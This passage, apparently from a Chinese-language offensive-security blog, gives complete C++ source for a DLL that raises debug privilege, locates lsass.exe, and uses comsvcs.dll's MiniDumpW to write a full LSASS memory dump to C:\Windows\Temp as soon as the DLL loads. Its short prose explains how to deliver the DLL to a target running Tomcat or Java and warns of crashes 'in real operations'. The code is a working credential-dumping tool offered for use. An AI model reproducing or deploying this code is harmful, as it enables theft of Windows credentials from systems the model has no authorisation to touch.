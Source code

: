 ```cpp

int Dump() {
    EnableDebugPrivilege();
    WCHAR commandLine[MAX_PATH];
    _MiniDumpW MiniDumpW;
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";
    //遍历lsass.exe 的PID
    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    
    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    _itow(lsassPID, commandLine, 10);
    lstrcatW(commandLine, L" C:\\Windows\\Temp\\111.sql full");
    MiniDumpW(0, 0, commandLine);
    return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

编译成DLL文件发送过去后，我们可以看到Tomcat.exe或者Java.exe的Debug权限已经被开启：

![](https://images.payloads.online/2022-08-11-22-06-46.png)

在`C:\Windows\Temp`目录下已经生成进程的内存转储文件。

**注意：如果Tomcat是以SERVICE账户启动的，那么直接加载DLL会造成Tomcat直接崩溃无法工作，这些敏感操作的失败会引发系统的错误处理程序，最终导致Tomcat进程关闭，在实战中应根据业务的重要程度谨慎操作。**
